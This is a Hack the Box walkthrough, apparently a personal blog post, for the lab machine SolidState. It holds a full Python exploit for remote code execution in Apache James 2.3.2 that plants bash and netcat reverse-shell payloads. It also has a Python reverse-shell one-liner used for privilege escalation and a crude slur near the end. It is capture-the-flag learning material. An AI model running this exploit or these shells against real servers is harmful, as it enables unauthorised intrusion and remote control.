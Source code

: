 ```yaml
---
title: SolidState - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/SolidState.png
---
```

---
title: 2024-10-12-SolidState - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-SolidState.png
---
#linux #manual 
### Scan
```
└─# nmap -sC -sV --open -p- 10.10.10.51
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 11:54 EDT
Nmap scan report for 10.10.10.51
Host is up (0.14s latency).
Not shown: 64818 closed tcp ports (reset), 712 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.3 [10.10.14.3])
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.94SVN%I=7%D=9/11%Time=66E1BD82%P=aarch64-unknown-linux
SF:-gnu%r(GenericLines,7C,"JAMES Remote Administration Tool 2\
SF:.3\.2
Please enter your login and password
Login id
SF::
Password:
Login failed for 
Login id:
");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 309.20 seconds

```
### Enumeration
petential RCE from edb


tryna enum from port 4555![Image](/assets/Screenshot 2024-09-11 at 12.56.11 PM.png)
![Image](/assets/Screenshot 2024-09-11 at 12.55.44 PM.png)

set up python script and listener (dont forget to wrap like i did :P)

```
import socket
import sys
import time
 
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'
 
if len(sys.argv) != 4:
    sys.stderr.write("[-]Usage: python3 %s <remote ip> <local ip> <local listener port>
" % sys.argv[0])
    sys.stderr.write("[-]Example: python3 %s 172.16.1.66 172.16.1.139 443
" % sys.argv[0])
    sys.stderr.write("[-]Note: The default payload is a basic bash reverse shell - check script for details and other options.
")
    sys.exit(1)
 
remote_ip = sys.argv[1]
local_ip = sys.argv[2]
port = sys.argv[3]
 
# Select payload prior to running script - default is a reverse shell executed upon any user logging in (i.e. via SSH)
payload = '/bin/bash -i >& /dev/tcp/' + local_ip + '/' + port + ' 0>&1' # basic bash reverse shell exploit executes after user login
#payload = 'nc -e /bin/sh ' + local_ip + ' ' + port # basic netcat reverse shell
#payload = 'echo $USER && cat /etc/passwd && ping -c 4 ' + local_ip # test remote command execution capabilities and connectivity
#payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # proof of concept exploit on root user login only
 
print ("[+]Payload Selected (see script for more options): ", payload)
if '/bin/bash' in payload:
    print ("[+]Example netcat listener syntax to use after successful execution: nc -lvnp", port)
 
 
def recv(s):
        s.recv(1024)
        time.sleep(0.2)
 
try:
    print ("[+]Connecting to James Remote Administration Tool...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((remote_ip,4555)) # Assumes James Remote Administration Tool is running on Port 4555, change if necessary.
    s.recv(1024)
    s.send((user + "
").encode('utf-8'))
    s.recv(1024)
    s.send((pwd + "
").encode('utf-8'))
    s.recv(1024)
    print ("[+]Creating user...")
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit
".encode('utf-8'))
    s.recv(1024)
    s.send("quit
".encode('utf-8'))
    s.close()
 
    print ("[+]Connecting to James SMTP server...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((remote_ip,25)) # Assumes default SMTP port, change if necessary.
    s.send("ehlo team@team.pl
".encode('utf-8'))
    recv(s)
    print ("[+]Sending payload...")
    s.send("mail from: <'@team.pl>
".encode('utf-8'))
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>
".encode('utf-8')) if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>
".encode('utf-8'))
    recv(s)
    s.send("data
".encode('utf-8'))
    recv(s)
    s.send("From: team@team.pl
".encode('utf-8'))
    s.send("
".encode('utf-8'))
    s.send("'
".encode('utf-8'))
    s.send((payload + "
").encode('utf-8'))
    s.send("
.
".encode('utf-8'))
    recv(s)
    s.send("quit
".encode('utf-8'))
    recv(s)
    s.close()
    print ("[+]Done! Payload will be executed once somebody logs in (i.e. via SSH).")
    if '/bin/bash' in payload:
        print ("[+]Don't forget to start a listener on port", port, "before logging in!")
except:
    print ("Connection failed.")
```

netcat into box and change passwords of all users to `password`
![Image](/assets/Screenshot 2024-09-11 at 1.38.31 PM.png)

Now, we need to telnet into the mail server via pop3 on port 110. ![Image](/assets/Screenshot 2024-09-11 at 1.39.52 PM.png) 

`USER mindy` then type '`PASS password`'

we can poke around these user's emails using `LIST` and `RETR`
ssh creds ![Image](/assets/Screenshot 2024-09-11 at 1.41.52 PM.png)

Once we log in, our script from earlier triggers our listener!
![Image](/assets/Screenshot 2024-09-11 at 1.43.23 PM.png)

![Image](/assets/Screenshot 2024-09-11 at 1.44.01 PM.png)
`USER:c2a02b6aac5efe90cc11717f43994eaa`

serve linpeas 

serve linenum
both didnt work



talk about opt and other common to check like /srv/ and /dev/

![Image](/assets/Screenshot 2024-09-11 at 2.07.06 PM.png)

we see py script with read and write all perms

pspy

python reverse shell one liner 
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.3',9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);" > tmp.py
```

wait a few mins with wrapped listener

![Image](/assets/Screenshot 2024-09-11 at 2.15.11 PM.png)

boom niga

`ROOT:08bae8a910f1847604ff24468d51688c`





### Initial Access

### Privilege Escalation
